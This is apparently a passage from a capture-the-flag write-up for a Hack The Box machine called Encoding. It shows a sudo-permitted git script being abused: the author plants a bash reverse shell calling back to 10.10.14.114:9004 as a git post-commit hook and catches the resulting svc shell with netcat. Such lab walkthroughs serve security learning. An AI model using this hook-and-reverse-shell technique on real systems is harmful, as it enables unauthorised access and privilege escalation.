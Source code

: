 ```bash
Matching Defaults entries for www-data on encoding:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on encoding:
    (svc) NOPASSWD: /var/www/image/scripts/git-commit.sh
www-data@encoding:~$ 
```

```bash
www-data@encoding:~/image/scripts$ cat git-commit.sh 
#!/bin/bash

u=$(/usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image ls-files  -o --exclude-standard)

if [[ $u ]]; then
        /usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image add -A
else
        /usr/bin/git --git-dir=/var/www/image/.git  --work-tree=/var/www/image commit -m "Commited from API!" --author="james <james@haxtables.htb>"  --no-verify
fi
```

I tried the same method that IppSec tried, to add the ssh keys via the git commit. But ended up using another reverse shell.   

As in many machines in HTB, there is a scheduled jobs to clear edits, delete user stuff etc,i made a reverse shell test script to tmp, which i wanted to ran after a git commit is made.
`/tmp/test`
```bash                            
#!/bin/sh
bash -c 'bash -i >& /dev/tcp/10.10.14.114/9004 0>&1'
```

Then i copied the script i made, to `.git` folder as a `post-commit` script, added the permissions needed, add a commit there for `hostname` , and commited it as a `svc`  
```bash
www-data@encoding:~/image$ cp /tmp/test .git/hooks/post-commit
www-data@encoding:~/image$ chmod 755 .git/hooks/post-commit
www-data@encoding:~/image$ git --work-tree /etc add /etc/hostname 
www-data@encoding:~/image$ sudo -u svc /var/www/image/scripts/git-commit.sh
[master 7b9b680] Commited from API!
 1 file changed, 1 insertion(+)
 create mode 100644 hostname
```

Again i had and `nc` listener on my attack machine ready, and it got the shell access.   
```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9004        
listening on [any] 9004 ...
connect to [10.10.14.114] from (UNKNOWN) [10.10.11.198] 37412
svc@encoding:/var/www/image$ ls
ls
actions
assets
includes
index.php
scripts
utils.php
svc@encoding:/var/www/image$ cd /home/svc
cd /home/svc
svc@encoding:~$ ls
ls
user.txt
```